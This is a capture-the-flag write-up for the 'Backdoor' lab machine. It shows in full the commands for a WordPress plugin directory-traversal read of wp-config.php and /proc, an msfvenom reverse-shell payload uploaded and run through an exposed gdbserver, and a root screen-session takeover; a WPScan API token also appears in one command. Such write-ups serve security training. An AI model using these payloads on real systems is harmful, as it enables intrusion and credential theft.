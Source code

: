 ## Backdoor

Difficulty: Easy

### User Flag

We find a different port open: 1337, but cannot enumerate this service with nmap.

```
rustscan -a backdoor.htb --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/d8f39e46-a250-4231-b12b-1c427620b92a)

<br>

The website uses Wordpress, so we can enumerate plugins here.

![websiteWordpress](https://github.com/b1d0ws/OSCP/assets/58514930/523ecdbc-fb63-4bfb-94cb-98e6c1bf4cc7)

<br>

There are two options, going to wp-content/plugins or using WPScan with an API key.

```
wpscan --url http://backdoor.htb --api-token pP5Ha3o7a3hmaIBueWtYShULJd6FFceslCaQE3LiKYw --enumerate vp --plugins-detection aggressive
```

![wpContentPlugins](https://github.com/b1d0ws/OSCP/assets/58514930/c862062a-4548-4e78-92e9-76b581c68035)

![wpsscan](https://github.com/b1d0ws/OSCP/assets/58514930/321e4eaf-beff-4313-8b0a-18a6ac628ed3)

<br>

WPScan indicate that the plugin Ebook Download has a Directory Traversal vulnerability. Searching for it, we discover how to exploit.

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

![exploit](https://github.com/b1d0ws/OSCP/assets/58514930/87dc9333-4b88-400b-a17d-2cc6d44092dd)

<br>

Since we want to discover what is running on port 1337, we can enumerate the process running.  

First, we fuzz the existing process with fuff inside a for and after analyze each one with the Path Traversal.

```
# Discovering process
for i in $(seq 1 5000); do echo $i >> pid.txt; done && \
ffuf -c -w pid.txt:FUZZ -u http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline -fw 1

# Reading them
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/862/cmdline
```

![ffuf](https://github.com/b1d0ws/OSCP/assets/58514930/d24d9e2c-f57f-4278-b0c6-ddc422cec997)

![readingProc](https://github.com/b1d0ws/OSCP/assets/58514930/8530c461-9b9c-44b7-9ff8-b216767f0946)

<br>

Reading one of the process, we discover that gdbserver is running on port 1337.

We can follow [this guide](https://book.hacktricks.xyz/network-services-pentesting/pentesting-remote-gdbserver) to get a reverse shell.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

# Set remote debuger target
target extended-remote 10.10.11.125:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run
```

![gdbReverse](https://github.com/b1d0ws/OSCP/assets/58514930/2fb5f059-7079-41ee-9ef7-0dd499dc07ba)

### Root Flag

Enumerating other process, we see that a Cronjob is running this command: 

```
/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done
```

Here we can simply screen the root session and get root user.

```
screen -x root/
```

![process](https://github.com/b1d0ws/OSCP/assets/58514930/d5b9f42e-ba5f-4e23-bded-8927593f03e3)

![rootScreen](https://github.com/b1d0ws/OSCP/assets/58514930/f800cd7c-054c-4f35-ab79-0e68436be37b)
